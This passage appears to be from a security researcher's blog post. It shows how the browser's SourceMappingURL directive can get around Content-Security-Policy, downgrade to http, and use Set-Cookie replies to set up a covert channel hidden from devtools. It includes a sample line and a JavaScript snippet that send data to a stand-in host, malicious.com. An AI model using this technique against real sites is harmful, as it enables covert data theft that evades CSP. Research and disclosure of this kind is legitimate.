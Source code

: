 Wow! That one was a cool discovery in my research! So if I go on https://example.com for example and it responds with Content-Security-Policy: default-src https://example.com as one of its headers (which means requests under https://example.com are only allowed to be made to https://example.com), I would be able to bypass that rule completely by using the SourceMappingURL feature by doing:

`//# SourceMappingURL=http://malicious.com?THIS_REQUEST_WILL_MAKE_IT_TO_THE_SERVER`.

This is pretty cool considering how difficult and almost impossible it is to bypass CSP rules these days.

-   Later on I’ve found out that this specific property of SourceMappingURL feature was already discovered before me (for example [here](https://twitter.com/xsspayloads/status/792683058931625984?lang=en)) - don’t worry though, this gets more interesting!


### [The request made by SourceMappingURL can be made using `http:` even if the page is loaded via `https:`](https://us-central1-smap-251411.cloudfunctions.net/csp)

Another cool property of SourceMappingURL feature is the fact that it can send non-secure requests via `http:` even if the main page was loaded via a secure connection over `https:`, a narrative that cannot be accomplished otherwise in the browser, since SSL downgrade is forbidden and is considered to be a serious security flaw.

So by this point I found some really cool hacks that by combining them all together, one can leak sensitive information while bypassing website’s CSP rules without it being documented whatsoever in the devtools, thus making it super hard to tell this strange activity took place in the victim’s browser.

So far so good. And then I was wondering to myself, if SourceMappingURL fires a request, does it have any of the other standard properties that any common request has? We already know that the response cannot be processed by the client side Javascript - so how is it similar to other types of network APIs in the browser? And then I’ve found the property that changed the game completely:

### [The browser respects headers set on the response to the SourceMappingURL request (including `Set-Cookie`)](https://us-central1-smap-251411.cloudfunctions.net/headers)

And that is the most powerful property of this feature - even though we don’t get to process the response ourselves, the browser respects response headers for this request, including `Set-Cookie`! This means an attacker can have a full request-and-response mechanism, simply by having their server inject the response in the cookie header instead of the actual response!

```javascript
function  smap  (  ...  )  {  ...  }  // same as in the snippent above..
	const i =  setInterval(  ()  =>  {
	var response =  getCookieValueByCookieName('SMAP_RESPONSES');
	if  (!response)  return;
	deleteCookieByCookieName('SMAP_RESPONSES');
	clearInterval(i);
	alert('server says that 1 + 2 is '  + response);
},  100  );

smap('http://malicious.com/sum',  {a:  1, b:  2});
```

